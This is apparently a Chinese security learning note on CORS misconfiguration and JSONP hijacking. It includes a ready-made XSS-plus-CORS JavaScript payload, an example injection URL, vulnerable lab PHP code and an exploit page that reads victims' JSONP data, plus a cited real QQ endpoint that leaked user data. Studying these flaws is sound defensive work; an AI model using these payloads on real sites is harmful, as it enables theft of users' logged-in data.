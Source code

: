 <a name="TsgCS"></a>
# 前端跨域漏洞
<a name="QoI4Q"></a>
## CORS
漏洞原因<br /> <br />由于配置不当，服务器并没有对Origin源进行一个严格的判断，从而造成跨域问题。<br />只要关注Origin即可。当我们把Origin设置为testcors.com时，返回包的Access-Control-Allow-Origin也为testcors.com,也就是testcors.com可以跨域获取aufeng.com的资源。从而产生了CORS配置不当的漏洞<br /> <br />（请求包的origin和响应包的access-allow-Origin）

一般xss+cors可以形成组合拳打高危漏洞<br />参考：<br />[https://www.freebuf.com/articles/web/204023.html](https://www.freebuf.com/articles/web/204023.html)<br /> <br />固定payload
```c
function cors() {  
var xhttp = new XMLHttpRequest();  
xhttp.onreadystatechange = function() {
if (this.status == 200) {
alert(this.responseText);
document.getElementById("demo").innerHTML = this.responseText;
}
};
xhttp.open("GET", "https://www.redacted.com/api/return", true);
xhttp.withCredentials = true;
xhttp.send();
}
cors();
```
假设[https://banques.redacted.com/choice-quiz?form_banque=](https://banques.redacted.com/choice-quiz?form_banque=)存在反射xss

[https://www.redacted.com/api/return](https://www.redacted.com/api/return) 存在cors跨域漏洞。<br />就像这样：
```
https://banques.redacted.com/choice-quiz?form_banque="><script>function%20cors(){var%20xhttp=new%20XMLHttpRequest();xhttp.onreadystatechange=function(){if(this.status==200) alert(this.responseText);document.getElementById("demo").innerHTML=this.responseText}};xhttp.open("GET","https://www.redacted.com/api/return",true);xhttp.withCredentials=true;xhttp.send()}cors();</script>&form_cartes=73&iframestat=1
```
 
<a name="dRQ11"></a>
## jsonp跨域
Jsonp跨域漏洞<br />为什么要用到jsonp跨域？<br />**同源策略**：协议、域名、端口都相同，是一种安全策略，不同源的客户端脚本在没有明确授权的情况下，不能读取对方资源。<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1589339347380-3e099698-004b-4e9e-aa8b-36ca9c4ba132.png#height=195&id=eSHEV&originHeight=210&originWidth=804&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=746)<br /> <br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1589339347536-773cc7e5-edef-45e9-8cab-95776d0ae049.png#height=218&id=awnYO&originHeight=218&originWidth=594&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=594)<br />如何解决跨域？目前掌握的有两种手段<br />（1）JSONP方式<br />（2）跨域资源共享（CORS），即添加响应头<br /> <br />Json一般长这样<br />{"name":"aufeng", "blog":"https://blog.csdn.net/weixin_41598660"}<br /> <br />它是一个非官方的协议，它允许在服务器端集成Script tags返回至客户端，通过javascript callback的形式实现跨域访问（这仅仅是JSONP简单的实现形式）。JSONP是一种非正式传输协议，该协议的一个要点就是允许用户传递一个callback参数给服务端，然后服务端返回数据时会将这个callback参数作为函数名来包裹住JSON数据，这样客户端就可以随意定制自己的函数来自动处理返回数据了。<br /> <br />例如<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1589339347665-c631ccc7-3be1-46b7-92bc-e1b8d36ce4ad.png#height=58&id=XtdOn&originHeight=89&originWidth=1145&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=746)<br />其中callback接口或许能插入xss的payload<br /> <br />Jsonp劫持漏洞复现<br />思维导图（个人理解<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1589339347892-9bd56416-210c-433b-b00d-011f2030dcfe.png#height=285&id=gWCCD&originHeight=285&originWidth=501&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=501)<br />Phpstudy并且设置好网站域名攻击者为aufeng.com，漏洞页面为dorabox.com<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1589339348076-85567133-ecf3-4f80-b2e3-bc90e83bf51d.png#height=491&id=feZlg&originHeight=491&originWidth=533&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=533)<br />搭建漏洞环境 dorabox，[https://github.com/Acmesec/DoraBox](https://github.com/Acmesec/DoraBox)<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1589339348242-0674d516-1a08-47a0-b890-d21f78168989.png#height=248&id=rQnWJ&originHeight=419&originWidth=1259&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=746)<br />Json劫持漏洞源码<br /><?php<br />       include "../class/function.class.php";<br />       $reqMethod = "GET";<br />       $reqValue = "callback";<br />       $p = new Func($reqMethod, $reqValue);<br />       $info = array('username' => 'Vulkey_Chen', 'mobilephone' => '13188888888', 'email' => 'admin@gh0st.cn', 'address' => '中华人民共和国', 'sex' => 'Cool Man');<br />       if(!@$_GET['callback']){<br />              echo $p -> con_function('json_encode',$info);<br />       }else{<br />              $callback = htmlspecialchars($_GET['callback']);<br />              echo "{$callback}(" . $p -> con_function('json_encode',$info) . ")";<br />       }<br />?><br />漏洞页面<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1589339348384-2f2a4718-1ac4-42b3-aace-f6f3b38ea66b.png#height=79&id=j54zS&originHeight=120&originWidth=1137&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=746)<br />编写exp<br /><html><br /><head><br /><meta charset="utf-8"><br /><title>JSONP劫持测试</title><br /></head><br /><body><br /><script type="text/javascript"><br />function vulkey(data){alert(JSON.stringify(data));}</script><br /> <br /><script src="http://www.DoraBox.com/csrf/jsonp.php?callback=vulkey"></script><br /></body><br /></html><br /> <br /> <br />Exp劫持url为：[http://www.aufeng.com/json2.html](http://www.aufeng.com/json2.html) ，假设受害者点击该页面，攻击者将会获取受害者敏感信息。<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1589339348504-ba23659e-b20d-43b0-afaa-ae998abe32a0.png#height=320&id=Wg7HT&originHeight=518&originWidth=1206&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=746)<br /> <br />分析：<br />但是如上的漏洞复现为什么成功？是因为漏洞服务器并没有对攻击者构造的页面请求进行referer的验证<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1589339348630-57edfa01-1b45-427e-a378-1f76864fef31.png#height=146&id=vPJQM&originHeight=159&originWidth=811&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=746)<br /> <br />例如上面攻击的请求包里面，referer值是攻击者的构造页面，但是漏洞服务器并没有对来源<br />的页面进行一个验证，导致了攻击者能获取到受害者的敏感信息。<br />（有的返回json数据会验证referer是不是从自己规定的域过来的）<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1589339348749-e5026629-9581-4e16-9879-31cd19bc2667.png#height=133&id=CViB4&originHeight=220&originWidth=1236&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=746)<br /> <br /> <br />常见json劫持exp<br />[https://www.cnblogs.com/xiaozi/p/9963523.html](https://www.cnblogs.com/xiaozi/p/9963523.html)<br />参考文章<br />[https://www.cnblogs.com/xiaoan0705/p/8625454.html](https://www.cnblogs.com/xiaoan0705/p/8625454.html)<br /> <br />乌云案例<br />1<br />登录QQ，访问[http://dir.minigame.qq.com/cgi-bin/yxs/GetYxsRegTime?callback=callback&dstuin=](http://dir.minigame.qq.com/cgi-bin/yxs/GetYxsRegTime?callback=callback&dstuin=)泄露用户QQ<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1589339348974-ca5cd50b-abb9-4b8d-b906-840fdb6a1af2.png#height=83&id=odJHI&originHeight=124&originWidth=1113&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=746)<br /> <br /> <br />2![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1589339349134-5f1bf494-a0bc-4479-8fd5-7108531990de.png#height=332&id=APxDv&originHeight=531&originWidth=1194&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=746)<br /> 
